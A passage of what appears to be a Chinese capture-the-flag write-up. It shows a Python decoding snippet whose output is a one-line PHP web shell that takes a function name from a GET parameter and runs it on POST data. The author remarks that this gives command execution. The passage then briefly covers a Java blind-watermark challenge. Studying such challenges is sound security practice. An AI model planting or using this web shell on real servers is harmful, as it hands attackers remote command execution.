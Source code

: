 ```py
    return val;

dec = decode(f)
print(dec)
```

得到	`error_reporting(0);($_GET['7d67973a'])($_POST['9fa3']);`

传参有了，命令执行

[![image-20231010194715036](assets/3014109-20231106224648638-107824652.png)](https://img2023.cnblogs.com/blog/3014109/202311/3014109-20231106224648638-107824652.png)

#### Jvav

java单图盲水印

https://github.com/ww23/BlindWatermark

[![image-20231011115410875](assets/3014109-20231106224648913-1915183045.png)](https://img2023.cnblogs.com/blog/3014109/202311/3014109-20231106224648913-1915183045.png)

